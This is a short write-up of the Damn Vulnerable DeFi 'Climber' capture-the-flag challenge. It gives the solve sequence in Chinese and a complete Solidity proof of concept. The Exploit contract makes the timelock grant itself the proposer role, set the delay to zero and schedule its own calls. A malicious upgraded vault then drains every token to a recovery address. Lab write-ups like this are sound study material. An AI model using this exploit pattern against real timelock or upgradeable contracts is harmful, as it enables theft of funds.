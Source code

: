 - 過關流程: grantRole 拿到 PROPOSER_ROLE -> updateDelay to 0 -> transferOwnership -> timelockSchedule -> upgrade contract -> withdraw -> done

[POC](./damn-vulnerable-defi/test/climber/Climber.t.sol) :

```
    function test_climber() public checkSolvedByPlayer {

            Exploit exploit = new Exploit(payable(timelock),address(vault));
            exploit.timelockExecute();
            PawnedClimberVault newVaultImpl = new PawnedClimberVault();
            vault.upgradeToAndCall(address(newVaultImpl),"");
            PawnedClimberVault(address(vault)).withdrawAll(address(token),recovery);  
    }
contract Exploit {
    address payable private immutable timelock;

    uint256[] private _values = [0, 0, 0,0];
    address[] private _targets = new address[](4);
    bytes[] private _elements = new bytes[](4);

    constructor(address payable _timelock, address _vault) {
        timelock = _timelock;
        _targets = [_timelock, _timelock, _vault, address(this)];

        _elements[0] = (
            abi.encodeWithSignature("grantRole(bytes32,address)", keccak256("PROPOSER_ROLE"), address(this))
        );
        _elements[1] = abi.encodeWithSignature("updateDelay(uint64)", 0);
        _elements[2] = abi.encodeWithSignature("transferOwnership(address)", msg.sender);
        _elements[3] = abi.encodeWithSignature("timelockSchedule()");
    }

    function timelockExecute() external {
        ClimberTimelock(timelock).execute(_targets, _values, _elements, bytes32("123"));
    }

    function timelockSchedule() external {
        ClimberTimelock(timelock).schedule(_targets, _values, _elements, bytes32("123"));
    }
}


contract PawnedClimberVault is ClimberVault {
/// @custom:oz-upgrades-unsafe-allow constructor
    constructor() {
        _disableInitializers();
    }
    function withdrawAll(address tokenAddress, address receiver) external onlyOwner {
        // withdraw the whole token balance from the contract
        IERC20 token = IERC20(tokenAddress);
        require(token.transfer(receiver, token.balanceOf(address(this))), "Transfer failed");
    }
}
```
